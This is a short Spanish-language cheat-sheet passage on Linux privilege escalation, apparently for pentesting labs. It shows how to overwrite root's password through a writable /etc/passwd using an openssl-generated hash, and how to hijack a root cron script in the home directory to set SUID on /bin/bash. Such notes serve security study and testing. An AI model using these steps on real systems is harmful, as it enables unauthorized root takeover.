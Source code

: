 -- - 
## /etc/passwd

Si realizamos un barrido a nivel de sistema para ver que archivos tienen permisos de escritura
```bash
find / -writable 2>/dev/null
```

Si luego de eso encontramos que podemos escribir sobre el /etc/passwd (nada normal) podemos con openssl generar un hash de una contraseña la cual pueda interpretar el archivo y asi cambiar la contraseña al usuario root 
```bash 
openssl passwd
"Contraseña nueva"
```
-- - 
## Script con privilegios en directorio personal

Si el usuario root tiene definida una tarea Cron que ejecuta un script en nuestro directorio personal de trabajo, podemos eliminarlo para asi crear otro archivo con el mismo nombre y poner por ejemplo este contenido.
```bash
#!/bin/bash 

chmod u+s /bin/bash

# Con este comando podemos quedarnos viendo y ejecutando a la vez de manera secuencial un comanod y su output
watch -n 1 ls -l /bin/bash
```

-- - 
